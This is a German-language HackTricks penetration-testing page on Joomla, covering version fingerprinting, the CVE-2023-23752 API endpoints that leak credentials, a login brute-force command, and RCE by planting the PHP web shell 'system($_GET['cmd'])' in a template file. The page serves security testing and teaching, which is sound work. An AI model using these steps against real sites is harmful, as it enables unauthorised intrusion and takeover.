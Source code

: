 # Joomla

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### Joomla-Statistiken

Joomla sammelt einige anonyme [Nutzungsstatistiken](https://developer.joomla.org/about/stats.html), wie die Verteilung der Joomla-, PHP- und Datenbankversionen sowie der verwendeten Serverbetriebssysteme in Joomla-Installationen. Diese Daten können über ihre öffentliche [API](https://developer.joomla.org/about/stats/api.html) abgefragt werden.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* Überprüfen Sie die **Meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Version

* In **/administrator/manifests/files/joomla.xml** können Sie die Version sehen.
* In **/language/en-GB/en-GB.xml** können Sie die Version von Joomla abrufen.
* In **plugins/system/cache/cache.xml** können Sie eine ungefähre Version sehen.

### Automatisch
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web Methodology ist ein Abschnitt über CMS-Scanner**](./#cms-scanners), die Joomla scannen können.

### API Unauthentifizierte Informationsoffenlegung:

Versionen von 4.0.0 bis 4.2.7 sind anfällig für unauthentifizierte Informationsoffenlegung (CVE-2023-23752), die Anmeldeinformationen und andere Informationen ausgibt.

* Benutzer: `http://<host>/api/v1/users?public=true`
* Konfigurationsdatei: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF-Modul**: `scanner/http/joomla_api_improper_access_checks` oder Ruby-Skript: [51334](https://www.exploit-db.com/exploits/51334)

### Brute-Force

Sie können dieses [Skript](https://github.com/ajnik/joomla-bruteforce) verwenden, um zu versuchen, sich mit Brute-Force in das Login einzuloggen.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Wenn Sie es geschafft haben, **Admin-Anmeldeinformationen** zu erhalten, können Sie **RCE darin** erreichen, indem Sie einen Ausschnitt von **PHP-Code** hinzufügen, um **RCE** zu erlangen. Wir können dies tun, indem wir ein **Template anpassen**.

1. **Klicken** Sie auf **`Templates`** unten links unter `Configuration`, um das Template-Menü zu öffnen.
2. **Klicken** Sie auf einen **Template-Namen**. Wählen wir **`protostar`** unter der Spaltenüberschrift `Template`. Dies bringt uns zur Seite **`Templates: Customise`**.
3. Schließlich können Sie auf eine Seite klicken, um den **Seitenquelltext** anzuzeigen. Wählen wir die **`error.php`**-Seite. Wir fügen eine **PHP-Einzeiler hinzu, um Codeausführung zu erlangen** wie folgt:
1. **`system($_GET['cmd']);`**
4. **Speichern & Schließen**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## Von XSS zu RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla-Ausnutzungsskript, das **XSS zu RCE oder anderen kritischen Schwachstellen erhöht**. Für weitere Informationen siehe [**diesen Beitrag**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Es bietet **Unterstützung für Joomla-Versionen 5.X.X, 4.X.X und 3.X.X und ermöglicht:**
* _**Privilegieneskalation:**_ Erstellt einen Benutzer in Joomla.
* _**(RCE) Eingebaute Templates bearbeiten:**_ Bearbeitet eingebaute Templates in Joomla.
* _**(Custom) Benutzerdefinierte Exploits:**_ Benutzerdefinierte Exploits für Drittanbieter-Joomla-Plugins.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks unterstützen</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

